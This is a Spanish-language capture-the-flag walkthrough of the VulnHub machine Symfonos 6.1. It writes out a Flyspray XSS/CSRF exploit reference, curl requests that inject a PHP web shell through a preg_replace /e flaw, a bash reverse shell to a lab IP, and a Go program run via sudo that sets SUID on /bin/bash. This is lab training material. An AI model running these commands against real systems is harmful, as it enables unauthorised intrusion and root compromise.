 -----
- Tags: #xss #csrf #apis #go
------
# Explicación e instalación

> En este tercer escenario vamos a estar realizando la máquina **Symfonos 6.1**, para descargarla nos vamos a dirigir al siguiente [link](https://www.vulnhub.com/entry/symfonos-61,458/). Una vez exportado el archivo .OVA vamos a cambiarle la configuración a **Bridged** y **Replicate Network State**.

-----
# Resolución

## Reconocimiento

### NMAP

```js
# Nmap 7.94SVN scan initiated Mon Oct 28 16:51:12 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oN allPorts 192.168.0.81
Nmap scan report for 192.168.0.81
Host is up, received arp-response (0.0021s latency).
Scanned at 2024-10-28 16:51:12 -03 for 5s
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64
MAC Address: 00:0C:29:D9:9B:BE (VMware)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Oct 28 16:51:17 2024 -- 1 IP address (1 host up) scanned in 5.37 seconds
```
### Información obtenida

```
-----------------------
Puerto 80:

PHP version:
PHP/5.6.40 (whatweb)

Directory's (gobuster dictionary medium & big)
/posts/ (Un pequeño texto en donde se describe quien fue achilles)
/posts/css/
/posts/includes/ (dos archivos .php interpretados que no se les ve el contenido)
/flyspray

flyspray:
Flyspray es OPEN SOURCE, por lo tanto revisamos su estructura en github y encontramos una seccion que nos indica que poseemos la version 1.0

-----------------------
Puerto 3000:
Una web de tipo repositorios (Github) en la que encontramos dos usuarios.

-----------------------
Puerto 5000:

404 Not Found (Parece ser que es una API que corre por detrás)

```
## Explotación

### XSS and CSRF

Utilizamos ``searchsploit`` para emplear el recurso ``php/webapps/41918.txt`` y generar un **CSRF** derivado de un **XSS** en el directorio ``192.168.0.81/flyspray``
Adquirimos el usuario ``hacker:12345678`` con privilegios de administrador gracias al script previo, de esta manera ganamos visibilidad de un reporte en el que encontramos credenciales de ``achilles``
``achilles:h2sBr9gryBunKdF9`` (Estas credenciales son válidas en el blog localizado en el **puerto 3000**) 

### Abuso de API

Una vez consigamos las credenciales de ``achilles`` para la web situada en el **puerto 3000** ingresamos a su cuenta. Una vez dentro vemos que en su perfil se encuentran dos repositorios en los cuales el usuario muestra el la composición del código de su blog situado en ``http://192.168.0.81/posts`` y además muestra la composición de una **API** que corre por detrás.

Indagando el código de su blog, se encuentra un archivo llamado ``index.php``, en este se utiliza una función con un **parámetro vulnerable** ya que el mismo se encuentra desactualizado, esta función es la siguiente ``preg_replace('/.*/e',$content, "Win");`` el parámetro vulnerable es ``/e``.

La función `preg_replace` en PHP se utiliza para realizar una búsqueda y reemplazo en cadenas usando expresiones regulares.

- El modificador `/e` **ejecuta cualquier código PHP que coincida con el patrón**, permitiendo la ejecución de código arbitrario. Esto abre la puerta a un ataque de inyección de código si `$content` proviene de una fuente insegura. Un atacante podría manipular `$content` para insertar código PHP malicioso que se ejecutaría cuando se evalúe.

-------------

Si indagamos en el contenido del repositorio correspondiente a la API veremos que hay variedades de directorios con código explicando su funcionamiento y sus diferentes llamadas. Analizando en profundidad descubrimos que hay una ruta llamada ``/ls2o4g/v1.0/auth/login`` ubicada en el **puerto 5000**. Esta ruta por defecto nos brinda un ``404 Not Found``, pero observando el código de desarrollo vemos que esta petición tiene que ser tramitada por **POST** y en formato **JSON**, además de proporcionar los campos ``username`` y ``password``, esto lo podemos hacer mediante **Burpsuite** o con ``curl``.
Cabe destacar que en los campos username y password probamos las diferentes credenciales obtenidas a lo largo del reconocimiento y explotación, por lo tanto encontramos que el usuario válido es ``achilles``

- ``curl -s -X POST "http://192.168.0.81:5000/ls2o4g/v1.0/auth/login" -H "Content-Type: application/json" -d '{"username":"achilles", "password":"h2sBr9gryBunKdF9"}'``

Esto nos brinda un **JWT** que nos servirá para **validar** la autenticación.

Luego de todo lo anterior encontramos una sección en la que se nos indica que podemos **leer**, **actualizar**, **eliminar**, etc recursos del ``/posts/`` a través de la API.

![[Imagenes de todas las carpetas/Máquina vulnerable 3/MV 1.png]]

En nuestro caso nos interesa el ultimo método llamado ``PATCH`` que como vemos nos pide que se identifique el ID del usuario actual luego de utilizar dicho método. 
Indagando más en los diferentes archivos con código de composición de la API vemos que hay uno llamado ``posts.ctrl.go`` que muestra que los diferentes métodos requieren en formato **JSON** un parámetro ``text``.

![[Imagenes de todas las carpetas/Máquina vulnerable 3/MV 2.png]]

Por lo tanto siguiendo todo lo que conseguimos hasta ahora podemos enviar una petición con ``curl`` a través del método ``PATCH``, arrastrando el Token obtenido con el ``curl`` previo, esto quedaría de la siguiente forma.

- ``curl -s -X PATCH "192.168.0.81:5000/ls2o4g/v1.0/posts/1" -H "Content-Type: application/json" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MzA4NDMxMzIsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ._TJYfmY132NRHWRn6FGo-Vhu00yNSTV4PmGGYJPWNhY" -d '{"text": "Probando"}'``

Como se puede ver en el comando anterior, vemos que se emplea la ruta ``192.168.0.81:5000/ls2o4g/v1.0/posts/1`` y que en esta el número ``1`` hace referencia al identificador de usuario de ``achilles``. Luego se proporciona el **Token** y por ultimo la data tramitada en formato **JSON** siguiendo los parámetros que vimos previamente, en este caso colocando la cadena "*Probando*", si ahora vamos a la web ``http://192.168.0.81/posts/`` veremos que ya no aparece la descripción de ``Achilles``, si no que aparece nuestra cadena "*Probando*".

![[Imagenes de todas las carpetas/Máquina vulnerable 3/MV 3.png]]

Ahora como previamente vimos que en este Blog se empleaba un parámetro vulnerable en la función `preg_replace`, nos aprovecharemos de este para ver si nos interpreta código PHP dentro, por lo tanto en vez de la cadena "*Probando*" colocamos lo siguiente a través de ``curl``.

- ``curl -s -X PATCH "192.168.0.81:5000/ls2o4g/v1.0/posts/1" -H "Content-Type: application/json" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MzA4NDMxMzIsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ._TJYfmY132NRHWRn6FGo-Vhu00yNSTV4PmGGYJPWNhY" -d '{"text": "system($_GET['cmd'])"}'``

Ahora probamos si nos interpreta correctamente el código colocando el parámetro ``?cmd=id`` en la URL

![[Imagenes de todas las carpetas/Máquina vulnerable 3/MV 4.png]]

Solo quedaría ganar acceso con una **Reverse Shell** de esta forma.

- ``nc -nlvp 443`` En nuestra máquina de atacante.
- ``192.168.0.81/posts/?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.0.194/443 0>%261'`` En la URL.

------
## Escalada de Privilegios

Una vez tenemos acceso a la máquina vamos a hacer un ``su achilles`` proporcionando la contraseña que encontramos previamente ``h2sBr9gryBunKdF9``

Detectamos con ``sudo -l`` que tenemos un privilegio a nivel de **sudoers** que nos permite ejecutar el binario ``/usr/local/go/bin/go`` como el usuario que queramos, por lo tanto buscamos por internet una forma de ejecutar un programa a través de ``go``.

En mi caso utilicé la siguiente [web](https://zetcode.com/golang/exec-command/) para guiarme.

En **GO** es ==necesario== que se especifique cada acción **entre doble comillas** separados por **comas**, por eso se emplea ``"chmod", "u+s", "/bin/bash"``

```
package main

import (
    "log"
    "os/exec"
)

func main() {

    cmd := exec.Command("chmod", "u+s", "/bin/bash")

    err := cmd.Run()

    if err != nil {
        log.Fatal(err)
    }
}
```

De esta forma solo quedaría ejecutar con ``sudo``, es decir de forma privilegiada el binario ``go`` para que nos brinde privilegios **SUID** a la **bash**.

- ``sudo /usr/local/go/bin/go run privesc.go``

![[Imagenes de todas las carpetas/Máquina vulnerable 3/MV 5.png]]

![[Imagenes de todas las carpetas/Máquina vulnerable 3/MV 6.png]]